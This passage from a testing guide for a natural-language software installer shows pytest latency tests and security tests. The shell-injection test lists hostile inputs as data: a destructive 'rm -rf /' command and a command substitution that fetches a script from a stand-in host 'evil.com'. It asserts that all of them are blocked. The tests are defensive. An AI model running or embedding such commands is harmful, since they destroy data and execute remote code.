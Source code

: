 ```python
        
        duration = time.time() - start
        assert duration < 2.0, f"Took {duration}s, max allowed is 2s"
    
    @pytest.mark.performance
    def test_maya_speed_requirement(self, nlp_engine):
        """Maya (ADHD) requires <1 second responses."""
        start = time.time()
        
        result = nlp_engine.process("firefox", persona="maya")
        
        duration = time.time() - start
        assert duration < 1.0, f"Maya needs <1s, took {duration}s"
```

## Security Testing

### Boundary Testing
```python
# tests/security/test_boundaries.py
class TestSecurityBoundaries:
    """Test security boundaries are maintained."""
    
    def test_no_shell_injection(self, command_executor):
        """Prevent shell injection attacks."""
        malicious_inputs = [
            "install firefox; rm -rf /",
            "install `echo pwned`",
            "install $(curl evil.com/hack.sh)"
        ]
        
        for evil_input in malicious_inputs:
            result = command_executor.process(evil_input)
            assert result.blocked
            assert "security" in result.reason.lower()
    
    def test_privacy_preserved(self, learning_system):
        """Ensure no private data is leaked."""
        # Add private data
        learning_system.learn("install firefox", "/home/user/secret.txt")
        
        # Export learned data
        exported = learning_system.export()
        
        # Verify sanitization
        assert "/home/user" not in str(exported)
        assert "secret.txt" not in str(exported)
```

## Debugging Failed Tests
